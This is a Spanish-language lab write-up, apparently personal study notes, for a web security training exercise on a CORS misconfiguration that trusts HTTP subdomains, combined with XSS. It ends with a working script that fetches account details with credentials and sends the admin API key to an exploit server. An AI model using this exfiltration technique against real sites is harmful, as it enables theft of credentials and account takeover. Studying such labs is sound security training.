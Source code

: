 En esta clase abordamos un caso en el que el servidor permite solicitudes CORS desde cualquier subdominio, independientemente de si usan HTTPS o HTTP. Esta configuración es especialmente peligrosa cuando se combinan con peticiones que incluyen credenciales.

Aprovechamos una funcionalidad vulnerable de la aplicación, donde una URL en HTTP ejecuta un script inyectado a través de un parámetro. Este script lanza una solicitud **XMLHttpRequest** a un endpoint protegido, obteniendo la clave API del administrador gracias a que el origen inseguro en HTTP sigue siendo aceptado por el servidor. El resultado se redirige al servidor de explotación, permitiendo capturar y enviar la clave para completar el laboratorio.

Solucion
aplicamos los pasos pero en este caso no va funcionar ni el null ni otra cosa
![[Pasted image 20250728211958.png]]
entonces aqui trabaja con subdominios
la primera prueba sera con el propio dominio
![[Pasted image 20250728212301.png]]
probamos con otro diferente
![[Pasted image 20250728212435.png]]
y tambien funciona
ahora toca buscar en la web aver que encontramos
La web:
![[Pasted image 20250728212612.png]]
presionamos el del perro
![[Pasted image 20250728212639.png]]
le damos en check stock
cuando le damos en check stock obtenemos esto
![[Pasted image 20250728212726.png]]

vamos a intestigar esa nueva ventana injectando codigo
![[Pasted image 20250728212850.png]]
y es vulnerable a xss
y podemos ver que este subdomio no tiene problema en ser mandado al origin
![[Pasted image 20250728213015.png]]
asi que vamos a mandar exfiltrar informcion entonces para ello vamos a realizar un script

<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>
